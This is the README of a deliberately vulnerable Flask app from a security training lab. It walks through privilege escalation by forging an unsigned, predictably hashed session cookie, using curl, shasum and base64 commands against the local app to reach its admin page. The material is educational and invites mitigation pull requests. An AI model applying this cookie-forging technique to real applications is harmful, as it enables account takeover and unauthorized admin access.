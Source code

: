 # Saidajaula Monster Fit

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

Saidajaula Monstro Fit is a Flask API built to demonstrate how a malicious user could exploit an Identity and Authentication Failure vulnerability and escalate his privileges.

## Index

- [Definition](#what-is-identity-&-authentication-failure?)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Identity and Authentication Failure?

Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.

The main goal of this app is to discuss how **Identity and Authentication Failure** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a7/saidajaula-monster
```

```sh
make install
```

Then simply visit [localhost:10002][app] ! 😆

## Get to know the app 🏋️‍

To properly understand how this application works, you can follow these simple steps:

- Visit its homepage!
- Try registering yourself as a new user.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Insecure session cookie validation allows for privilege escalation

It's possible to reach the server's web application through the HTTP port 10002, as we can see from the image below:

<p align="center">
    <img src="images/img1.png"/>
</p>

We can sign-up for a new account by clicking the `SIGN UP` button on the top right corner. Then, we are redirected to the `/register` page. As shown by the image below:

<p align="center">
    <img src="images/attack1.png"/>
</p>

After creating an account, we are redirected to the `/login` page and, to better understand how the application is handling the requests, we will perform login using the following `curl` command. As shown by the image:

```sh
curl -i -L localhost:10002/login -F "username=daniel" -F "password=daniel" -X POST
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

As we can see from the image above, the application sets a cookie for the user, `sessionId`. By having a better look at this cookie, we find out that it is base64 encoded, and it's content are as follows:

<p align="center">
    <img src="images/attack3.png"/>
</p>

Now, by having a look at the app's code, it's possible to see that all the information to generate this cookie is known to any user, as shown by the following image:

<p align="center">
    <img src="images/attack4.png"/>
</p>

### 🔥

Knowing how the cookie is being generated, a malicious user could create his own to gain access to pages he shouldn't have. An attacker could obtain admin privileges by changing the cookie's `permission` field, as depicted by the image below:

<p align="center">
    <img src="images/attack5.png"/>
</p>

It is also possible to generate this cookie from terminal using `shasum` command:

```sh
echo -n '{"permissao": 1, "username": "daniel"}' | shasum -a 256
```

After that, the attacker needs to concatenate the cookie's fields and the hash, separated by a dot. As shown by the following image:

<p align="center">
    <img src="images/attack6.png"/>
</p>

The server expects the cookie to be in base64 format, so the attacker needs to encode his cookie. As we can see from the image below using the command:

```sh
echo -n '{"permissao": 1, "username": "daniel"}.35771d6998cf216aa3297d1fb54462e04d85443be6092a02961b52b24c2d3250' | base64
```

<p align="center">
    <img src="images/attack7.png"/>
</p>

Now, all an attacker needs to do is try to access the `/admin` only page. As shown by the image below:

```sh
curl -v --cookie "sessionId=eyJwZXJtaXNzYW8iOiAxLCAidXNlcm5hbWUiOiAiZGFuaWVsIn0uMzU3NzFkNjk5OGNmMjE2YWEzMjk3ZDFmYjU0NDYyZTA0ZDg1NDQzYmU2MDkyYTAyOTYxYjUyYjI0YzJkMzI1MA==" http://localhost:10002/admin
```

<p align="center">
    <img src="images/attack8.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Log in as admin or any other user, rather than himself, by modifying the session cookie.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Saidajaula+Monster+Fit%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10002
[dirb]: https://tools.kali.org/web-applications/dirb
